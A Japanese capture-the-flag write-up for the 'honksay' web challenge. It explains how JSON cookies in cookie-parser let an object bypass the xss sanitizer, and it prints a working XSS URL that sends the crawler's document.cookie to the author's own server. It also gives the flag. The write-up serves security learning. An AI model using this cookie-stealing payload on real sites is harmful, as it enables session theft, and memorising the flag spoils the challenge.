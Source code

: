 # honksay:Web:50pts
Haha goose say funny thing  

[http://honksay.ctf.maplebacon.org/](http://honksay.ctf.maplebacon.org/)  

[honksay.tar.gz](honksay.tar.gz)  

# Solution
URLとソースコードが渡される。  
アクセスすると、アヒルと報告するフォームのみが見つかる。  
![site.png](site/site.png)  
ソース(app.js)を見ると以下のようであった。  
```js
~~~
app.get('/changehonk', (req, res) => {
    res.cookie('honk', req.query.newhonk, {
        httpOnly: true
    });
    res.cookie('honkcount', 0, {
        httpOnly: true
    });
    res.redirect('/');
});
~~~
```
`/changehonk`でcookie経由でアヒルに何か喋らせられる。  
適当にscriptタグなどを打ち込むが、サニタイズされている挙動がみられる。  
ソースでは以下の部分であった。  
```js
~~~
const clean = require('xss');
~~~
app.get('/', (req, res) => {
    if (req.cookies.honk){
        //construct object
        let finalhonk = {};
        if (typeof(req.cookies.honk) === 'object'){
            finalhonk = req.cookies.honk
        } else {
            finalhonk = {
                message: clean(req.cookies.honk), 
                amountoftimeshonked: req.cookies.honkcount.toString()
            };
        }
        res.send(template(finalhonk.message, finalhonk.amountoftimeshonked));
    } else {
        const initialhonk = 'HONK';
        res.cookie('honk', initialhonk, {
            httpOnly: true
        });
        res.cookie('honkcount', 0, {
            httpOnly: true
        });
        res.redirect('/');
    }
});
~~~
```
フラグはクローラー(goose.js)のcookieなので、典型的なXSS問題だ。  
```js
~~~
        page = await browser.newPage();
        await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: 'localhost',
            samesite: 'none'
        });
        await page.goto(url, {waitUntil : 'networkidle2' }).catch(e => console.log(e));
~~~
```
サニタイズライブラリのバージョンを確認するも最新版で、`clean`をbypassするのは現実的でない。  
ここで以下に注目する。  
```js
~~~
        let finalhonk = {};
        if (typeof(req.cookies.honk) === 'object'){
            finalhonk = req.cookies.honk
        } else {
            finalhonk = {
                message: clean(req.cookies.honk), 
                amountoftimeshonked: req.cookies.honkcount.toString()
            };
        }
        res.send(template(finalhonk.message, finalhonk.amountoftimeshonked));
~~~
```
`typeof(req.cookies.honk) === 'object'`がTrueであればサニタイズを回避できる。  
ここで`honksay.ctf.maplebacon.org/changehonk?newhonk[abc]=def`にアクセスすると、cookieが`j:{"abc":"def"}`をパーセントエンコーディングしたものになっていることに気づく。  
調査するとcookie-parserではJSON cookiesなるものをサポートしているようだ。  
`finalhonk.message`をレンダリングしているので、`j:{"message":"XSS Payload"}`が刺さる。  
クローラはlocalhostのcookieにフラグを設定しているので、Dockerfileなどでportを調べてやると`9988`とわかる。  
よって最終的なXSSを引き起こすURLは以下になる。  
```
http://localhost:9988/changehonk?newhonk[message]=%3Cscript%3Elocation.href%3D%27https://[自身のサーバ]%2F%3Fs%3D%27%2Bdocument.cookie%3C%2Fscript%3E
```
これを報告し、自身のサーバで待ち受ける。  
```
GET
/?s=flag=maple{g00segoHONK}
```
flagを含むリクエストが届いた。  

## maple{g00segoHONK}